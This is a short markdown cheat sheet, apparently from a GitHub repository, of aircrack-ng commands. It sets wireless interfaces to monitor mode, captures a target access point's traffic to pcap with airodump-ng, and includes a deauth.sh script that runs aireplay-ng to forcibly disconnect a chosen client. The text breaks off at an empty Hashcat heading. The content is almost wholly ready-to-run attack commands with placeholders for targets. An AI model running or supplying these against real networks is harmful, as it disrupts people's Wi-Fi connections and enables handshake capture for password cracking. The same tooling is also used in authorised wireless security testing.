 ## General

### AP `a`
```bash
1 apdo
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
12 power rate
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

### Channel by BSSID
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --bssid CHANGEME wlan1
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write CHANGEME \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Deauth
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```

## Hashcat

###
